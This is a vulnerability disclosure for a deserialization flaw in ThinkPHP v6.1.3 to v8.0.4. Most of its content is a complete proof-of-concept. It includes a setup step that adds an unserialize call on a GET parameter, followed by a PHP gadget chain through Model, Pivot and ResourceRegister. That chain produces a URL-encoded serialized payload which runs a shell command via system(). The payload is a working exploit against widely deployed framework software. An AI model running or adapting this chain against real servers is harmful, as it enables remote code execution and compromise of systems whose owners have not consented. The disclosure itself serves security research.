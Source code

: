 Thinkphp8反序列化

## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

## Affects Version



Thinkphp v6.1.3 to v8.0.4

## Vulnerability certificate

php8.0.2 thinkphp v8.0.0



First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['lll']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

}
```



POC

```php
<?php

namespace think\model\concern;

trait Attribute
{
    private $data = ["key" => ["key1" => "whoami"]];
    private $withAttr = ["key"=>["key1"=>"system"]];
    protected $json = ["key"];
}
namespace think;

abstract class Model
{
    use model\concern\Attribute;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $jsonAssoc;
    function __construct($obj = '')
    {
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->table = $obj;
        $this->jsonAssoc = true;
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\Pivot;
class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new Pivot(new Pivot());
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));
```

Use the payload to deserialize can result to RCE:



![image-20240912092112199](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240912092112199.png)
